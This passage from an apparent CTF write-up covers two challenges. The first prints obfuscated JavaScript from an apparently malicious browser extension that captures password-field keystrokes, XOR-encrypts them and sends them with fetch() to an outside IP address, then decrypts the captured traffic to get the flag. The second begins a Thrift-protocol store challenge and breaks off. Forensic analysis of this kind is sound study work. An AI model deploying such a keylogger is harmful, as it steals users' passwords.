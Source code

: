 ```js=
    const _0x384e0a = _0x2d1e8c[_0x404414(182)](_0x58a85f), _0x4250be = _0x3beac1.charCodeAt(0), _0x4df57c = _0x384e0a ^ _0x4250be;
    _0x406d63 += _0x4df57c[_0x404414(192)](16)[_0x404414(188)](2, "0");
  }
  return _0x406d63;
}
document[_0x421cd8(187)](_0x421cd8(181), _0x4e7994 => {
  const _0x39d3e2 = _0x421cd8, _0x260e7d = _0x4e7994[_0x39d3e2(176)];
  if (_0x260e7d[_0x39d3e2(179)] === "password") {
    const _0x2c5a17 = _0x4e7994[_0x39d3e2(175)][_0x39d3e2(183)] === 1 ? _0x4e7994[_0x39d3e2(175)] : "", _0x5e96ad = getKey(), _0x5a4007 = xorEncrypt(_0x2c5a17, _0x5e96ad), _0x3a36f2 = encodeURIComponent(_0x5a4007);
    _0x2c5a17 && fetch("http://192.9.137.137:42552/?t=" + _0x3a36f2);
  }
});
```
This code will work when we typing in input type="password", it will get the key we just typed, encrypt it and send to `http://192.9.137.137:42552`. We can see them on pcapng file.
This code encrypt the key by xor it(ASCII) with current UTC minute + 32.
![image](https://hackmd.io/_uploads/B1Ch4Mo5xl.png)

Now we extract the cipher key and decrypt it. On file pcapng, current UTC minute when the code work is 23.

![image](https://hackmd.io/_uploads/Synorzo9ll.png)

**Flag: ictf{extensions_might_just_suck}**

## thrift-store
> The frontend has gone down but the store is still open, can you buy the flag?
> thrift-store.chal.imaginaryctf.org:9090
> Author: Ciaran

This chall give me a link to connect. About des, we know this is the store but it doesn't have front end and we will buy flag by send request to this link. Next, this chall also give me a pcapng file about testing this store in local, open to view it.
![image](https://hackmd.io/_uploads/SkCb6Go5lg.png)

Now we know it use thrift protocol to operate this store. Filter thrift:
![image](https://hackmd.io/_uploads/BJ9HTMicll.png)
![image](https://hackmd.io/_uploads/Syx86zo9ll.png)

There are 4 functions to operate: 
`getInventory`: To have list menu.
`createBasket`: To create basket.
`addToBasket`: To add something to basket.
`Pay`: To pay.

If we pay not incorrect price of items in cart, it will reply me like this: `Total does not match basket total`
